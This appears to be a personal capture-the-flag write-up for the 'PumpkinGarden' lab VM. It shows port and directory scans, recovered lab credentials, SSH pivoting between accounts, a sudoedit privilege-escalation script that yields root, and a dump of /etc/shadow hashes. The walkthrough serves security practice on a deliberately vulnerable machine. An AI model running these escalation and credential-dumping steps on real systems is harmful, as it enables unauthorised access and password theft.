







Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
PumpkinGarden
Nmap scan report for 192.168.56.113Host is up (0.000078s latency).
Not shown: 999 closed ports
PORT STATE SERVICE
21/tcp open ftp
MAC Address: 08:00:27:20:A9:84 (Oracle VirtualBox virtual NIC)
root@kali:~# nmap -A -p- 192.168.56.113
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 23:26 EST
Nmap scan report for 192.168.56.113
Host is up (0.00038s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0 0 88 Jun 13 00:02 note.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to 192.168.56.1
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.2 - secure, fast, stable
|_End of status
1515/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Mission-Pumpkin
3535/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 d8:8d:e7:48:3a:3c:91:0e:3f:43:ea:a3:05:d8:89:e2 (DSA)
| 2048 f0:41:8f:e0:40:e3:c0:3a:1f:4d:4f:93:e6:63:24:9e (RSA)
| 256 fa:87:57:1b:a2:ba:92:76:0c:e7:85:e7:f5:3d:54:b1 (ECDSA)
|_ 256 fa:e8:42:5a:88:91:b4:4b:eb:e4:c3:74:2e:23:a5:45 (ED25519)
MAC Address: 08:00:27:20:A9:84 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.38 ms 192.168.56.113
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.25 seconds
root@kali:~#
ftp has Anonymous login

FLAG 1: (note.txt)
Hello Dear!
Looking for route map to PumpkinGarden? I think jack can help you find it.


FLAG 2:
<!-- searching for the route map? Pumpkin images may help you find the way -->
root@kali:~# dirb http://192.168.56.113:1515/ /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Wed Nov 6 23:32:58 2019
URL_BASE: http://192.168.56.113:1515/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.113:1515/ ----
==> DIRECTORY: http://192.168.56.113:1515/img/
+ http://192.168.56.113:1515/index.html (CODE:200|SIZE:903)
+ http://192.168.56.113:1515/server-status (CODE:403|SIZE:296)
---- Entering directory: http://192.168.56.113:1515/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
-----------------
END_TIME: Wed Nov 6 23:32:59 2019
DOWNLOADED: 4612 - FOUND: 2
root@kali:~#


FLAG 3:
c2NhcmVjcm93IDogNVFuQCR5

- is this a login?
scarecrow : 5Qn@$y
→ tried with ssh:
root@kali:~# ssh -p 3535 scarecrow@192.168.56.113
------------------------------------------------------------------------------
Welcome to Mission-Pumpkin
All remote connections to this machine are monitored and recorded
------------------------------------------------------------------------------
scarecrow@192.168.56.113's password:
Last login: Thu Jun 13 00:35:51 2019 from 192.168.1.106
scarecrow@Pumpkin:~$
FLAG:
scarecrow@Pumpkin:~$ cat note.txt
Oops!!! I just forgot; keys to the garden are with LordPumpkin(ROOT user)!
Reach out to goblin and share this "Y0n$M4sy3D1t" to secretly get keys from LordPumpkin.
scarecrow@Pumpkin:~$
scarecrow@Pumpkin:/home$ ls
goblin jack scarecrow
scarecrow@Pumpkin:/home$
Y0n$M4sy3D1t → is the password to goblin
root@kali:~# ssh -p 3535 goblin@192.168.56.113
------------------------------------------------------------------------------
Welcome to Mission-Pumpkin
All remote connections to this machine are monitored and recorded
------------------------------------------------------------------------------
goblin@192.168.56.113's password:
Last login: Thu Jun 13 00:43:14 2019 from 192.168.1.106
goblin@Pumpkin:~$
FLAG
goblin@Pumpkin:~$ cat note
Hello Friend! I heard that you are looking for PumpkinGarden key.
But Key to the garden will be with LordPumpkin(ROOT user), don't worry, I know where LordPumpkin had placed the Key.
You can reach there through my backyard.
Here is the key to my backyard
https://www.securityfocus.com/data/vulnerabilities/exploits/38362.sh
goblin@Pumpkin:~$
goblin@Pumpkin:~$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description: Ubuntu 14.04.6 LTS
Release: 14.04
Codename: trusty
goblin@Pumpkin:~$
---> I couldn't find the exploit, but I found this code:
goblin@Pumpkin:/tmp$ cat > sudoedit << _EOF
#!/bin/sh
echo ALEX-ALEX
su
/bin/su
/usr/bin/su
_EOF
goblin@Pumpkin:/tmp$ chmod a+x ./sudoedit
goblin@Pumpkin:/tmp$ sudo ./sudoedit $1
ALEX-ALEX
root@Pumpkin:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@Pumpkin:/tmp# cd /root
root@Pumpkin:~# ls
PumpkinGarden_Key
root@Pumpkin:~# cat PumpkinGarden_Key
Q29uZ3JhdHVsYXRpb25zIQ==
root@Pumpkin:~#

FLAG:
root@Pumpkin:/home/jack# cat note.txt
Are you here for keys to pumpkin garden?
I'm afraid that scarecrow has just stolen the keys from me...
root@Pumpkin:/home/jack#
root@Pumpkin:/# cat /etc/shadow
root:$6$budH0KF3$qgLCqvPB9y3Qqi5MzQH0v55imm8YOwNZ9ehldQ6hAH5bNkP1HkdekxEn0i/5tHgnYYjSPbnd8NiYoNENShngM0:18058:0:99999:7:::
daemon:*:18058:0:99999:7:::
bin:*:18058:0:99999:7:::
sys:*:18058:0:99999:7:::
sync:*:18058:0:99999:7:::
games:*:18058:0:99999:7:::
man:*:18058:0:99999:7:::
lp:*:18058:0:99999:7:::
mail:*:18058:0:99999:7:::
news:*:18058:0:99999:7:::
uucp:*:18058:0:99999:7:::
proxy:*:18058:0:99999:7:::
www-data:*:18058:0:99999:7:::
backup:*:18058:0:99999:7:::
list:*:18058:0:99999:7:::
irc:*:18058:0:99999:7:::
gnats:*:18058:0:99999:7:::
nobody:*:18058:0:99999:7:::
libuuid:!:18058:0:99999:7:::
syslog:*:18058:0:99999:7:::
messagebus:*:18058:0:99999:7:::
mysql:!:18058:0:99999:7:::
sshd:*:18058:0:99999:7:::
jack:$6$VZpdArOM$PQkQeB5d7U09nXWElelzrX8LKXShjxWnbkru7Mcc4OzYC62fPPLVq1ZYEEJ0EFXFiVqepG3L5v24.sKGpX3eV0:18058:0:99999:7:::
scarecrow:$6$mYQwfnJK$hSPM7CGiC/l82CLD3hFA6oqIaiuwj.fiuwQZW5ySUR.1Jlr8D45gYapQfQj56kZ4/A.95VXL9zb56BU.1eMXl/:18058:0:99999:7:::
goblin:$6$A4BbMSdK$SQdJXJZzvZr37pcPbsy5h6nOtQseY1z4SGfpQyS81cyKIcQJSlXzIb34HoUKN21ggCUjZM9FRtq.0UtZml4pU0:18058:0:99999:7:::
ftp:*:18058:0:99999:7:::
FIN